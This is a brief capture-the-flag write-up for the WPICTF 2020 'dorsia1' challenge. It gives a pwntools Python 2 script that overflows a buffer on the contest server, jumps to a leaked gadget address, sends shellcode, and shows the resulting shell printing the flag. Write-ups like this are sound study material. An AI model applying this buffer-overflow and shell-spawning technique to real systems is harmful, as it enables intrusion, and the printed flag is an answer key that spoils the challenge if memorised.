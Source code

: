 ## dorsia1 WPICTF 2020 Writeup

This was the C code you interact with over nc:

![scrot](scrot.png)

I found out the address given back is a magic gadget, so you don't need to subtract anything...

Python 2:

```python
from pwn import *

r = remote('dorsia1.wpictf.xyz', 31337)

system = r.recvline().decode('utf-8')

r.send('A'*77)
r.send(p64(int(system, 16)))

payload = 'A'*8
payload += asm(shellcraft.sh())
r.send(payload)
r.interactive()
```

```
$ python2 solve.py 
[+] Opening connection to dorsia1.wpictf.xyz on port 31337: Done
[*] Switching to interactive mode
$ cat flag.txt
WPI{FEED_ME_A_STRAY_CAT}
```
